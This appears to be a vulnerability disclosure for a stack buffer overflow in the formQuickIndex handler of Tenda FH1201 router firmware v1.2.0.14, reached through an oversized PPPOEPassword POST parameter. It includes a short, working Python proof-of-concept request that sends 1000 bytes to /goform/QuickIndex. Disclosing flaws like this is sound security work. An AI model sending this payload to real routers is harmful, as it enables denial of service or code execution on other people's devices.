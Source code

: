 # formQuickIndex

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the formQuickIndex function.The v6 variable receives the PPPOEPassword parameter from a POST request and  and passes it to the decodePwd function. 

![image-20240724092436305](./image-20240724092436305.png)

Within decodePwd , the v6 variable is later assigned to the v8  variable.  There is no size check, so the user-provided v6 can exceed the allocated size of the v8 array The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

![image-20240724092812698](./image-20240724092812698.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/QuickIndex"

payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240724092916106](./image-20240724092916106.png)


